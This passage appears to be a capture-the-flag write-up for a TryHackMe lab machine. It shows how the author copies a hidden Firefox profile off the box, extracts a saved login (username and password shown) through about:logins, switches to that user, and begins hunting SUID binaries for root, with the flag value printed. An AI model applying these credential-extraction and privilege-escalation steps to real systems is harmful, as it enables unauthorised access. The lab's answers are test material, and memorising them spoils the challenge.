   ```
  drwx------   2 user user  4096 Jan 21  2021 .ssh
  -rw-rw-r--   1 user user    22 Jan  4  2021 user.txt
  
  user@ubuntu:~$ cat user.txt 
  THM{i_don't_know_why}
  ```
  
- Well, this `.firefox` directory is very fishy. I spent some time looking for exploits and found the way in. First, convert it to ZIP and move it to your local machine.

  ```
  user@ubuntu:~$ tar -cvf firefox.tgz .firefox
  user@ubuntu:~$ ls
  firefox.tgz  user.txt

  scp firefox.tgz [YOUR-HOST-NAME]@[YOUR-THM-IP]:/path/where/you/want/it
  ```
  
- When you visit that directory you will find a username.

  ```
  user@ubuntu:~/.firefox$ ls -al
  total 20
  drwxrwxrwx  4 user user 4096 Jan 27  2021  .
  drwxr-xr-x  8 user user 4096 May 21 21:59  ..
  drwxrwxrwx 11 user user 4096 Jan 27  2021  b5w4643p.default-release
  drwxrwxrwx  3 user user 4096 Jan 27  2021 'Crash Reports'
  -rwxrwxr-x  1 user user  259 Jan 27  2021  profiles.ini
  ```

- Now, on your local machine runs this command that will open the firefox with all bookmarks and passwords saved for this specific user.

  ```firefox --profile .firefox/b5w4643p.default-release --allow-downgrade```

- Now in that session, visit `about:logins` and get those credentials.

  ```
  Website address https://glitch.thm
  v0id
  love_the_void
  ```

- Now switch to user `v0id` and let's escalate to root.

  ```
  user@ubuntu:~/.firefox$ su v0id
  Password: 
  v0id@ubuntu:/home/user/.firefox$ whoami
  v0id
  v0id@ubuntu:/home/user/.firefox$ id
  uid=1001(v0id) gid=1001(v0id) groups=1001(v0id)
  ```

---

## 👑 Root Privilege Escalation

- Right now I did a ton of enumeration and permission enumeration is what got me to root.

  ```
  v0id@ubuntu:~$ find / -type f -perm -4000 -exec ls -ldb {} \; 2>>/dev/null
  -rwsr-xr-x 1 root root 64424 Jun 28  2019 /bin/ping
  -rwsr-xr-x 1 root root 43088 Sep 16  2020 /bin/mount
  -rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
  -rwsr-xr-x 1 root root 26696 Sep 16  2020 /bin/umount
  -rwsr-xr-x 1 root root 44664 Mar 22  2019 /bin/su
  -rwsr-xr-- 1 root messagebus 42992 Jun 11  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper